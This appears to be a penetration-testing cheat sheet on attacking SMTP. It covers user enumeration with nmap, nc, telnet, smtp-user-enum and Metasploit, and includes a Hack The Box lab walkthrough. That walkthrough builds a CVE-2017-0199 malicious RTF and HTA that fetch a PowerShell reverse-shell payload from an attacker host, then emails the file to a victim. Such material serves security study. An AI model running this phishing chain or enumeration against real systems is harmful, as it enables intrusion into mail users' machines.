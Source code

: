 # 25 (SMTP)

## Enumeration

### Checks

* [ ] Check for user enumeration
* [ ] Check version for exploits

### Scripts

#### nmap

```bash
nmap -p25 --script smtp-commands <IP>
nmap --script smtp-enum-users <IP>
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 <IP>
```

### Manual

```bash
nc -nvv <IP> 25
VRFY root
```

```bash
telnet <IP> 25
HELO anydomain.com
MAIL FROM: BruceWayne@WayneCorp.com  # Select email address to send from
250 OK
RCPT TO: <nico@megabank.com>  # Specify email address to send to
250 OK  # Verifies the user exists
RCPT TO: <unknown@megabank.com>
550 Unknown User  # Verifies user does not exist
RCPT TO: <random@random.com>
250 OK  # Cannot actually verify as its a different domain

```

Look into sending a malicious document to have the recipient of the email open it and hopefully gain a reverse shell or have the malicious code executed.

#### Example

CVE-2017-0199 RTF file exploit using the Reel machine on Hack The Box.

<pre class="language-bash"><code class="lang-bash"># Generate malicious RTF file
python cve-2017-0199_toolkit.py -M gen -w test.rtf -u http://attacker/test.hta -t RTF -x 0
<strong># Generate malicous HTA file using examples from Out-HTA.ps1
</strong><strong>cd /opt/nishang/Client
</strong><strong>pwsh  # Start up PowerShell on Kali
</strong><strong>.\Out-HTA.ps1
</strong><strong>Out-HTA -PayloadURL http://attacker/test.ps1  # Create new ps1 script file
</strong><strong>
</strong><strong>mv winDef_webInstall.hta /path/to/www
</strong><strong>cp ../CVE-2017-0199/test.rtf /peth/to/www
</strong><strong>cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1
</strong><strong>mv /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 test.ps1  # Move Invoke-PowerShellTcp -Reverse to the bottom of the script
</strong><strong>python3 -m http.server 80
</strong><strong>nc -lvnp 9001
</strong><strong>
</strong><strong>sendemail -f test@megabank.com -t nico@megabank.com -u RTF -m "Please conver this" -a test.rtf -s 10.10.10.77
</strong><strong># Wait for reverse shell
</strong></code></pre>

### Commands

```bash
HELO - 
EHLO - Extended SMTP.
STARTTLS - SMTP communicted over unencrypted protocol. By starting TLS-session we encrypt the traffic.
RCPT - Address of the recipient.
DATA - Starts the transfer of the message contents.
RSET - Used to abort the current email transaction.
MAIL - Specifies the email address of the sender.
QUIT - Closes the connection.
HELP - Asks for the help screen.
AUTH - Used to authenticate the client to the server.
VRFY - Asks the server to verify is the email user's mailbox exists.
```

### **smtp-user-enum**

```bash
smtp-user-enum -M VRFY -U /root/sectools/SecLists/Usernames/Names/names.txt -t <IP>
```

```bash
Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /root/sectools/SecLists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 8607
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sun Jun 19 11:04:59 2016 #########
192.168.1.103: Bin exists
192.168.1.103: Irc exists
192.168.1.103: Mail exists
192.168.1.103: Man exists
192.168.1.103: Sys exists
######## Scan completed at Sun Jun 19 11:06:51 2016 #########
5 results.

8607 queries in 112 seconds (76.8 queries / sec)
```

### Metasploit

```bash
msf > use auxiliary/scanner/smtp/smtp_enum 
msf auxiliary(smtp_enum) > show options

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                                Required  Description
   ----       ---------------                                                --------  -----------
   RHOSTS                                                                    yes       The target address range or CIDR identifier
   RPORT      25                                                             yes       The target port
   THREADS    1                                                              yes       The number of concurrent threads
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of probable users accounts.
```
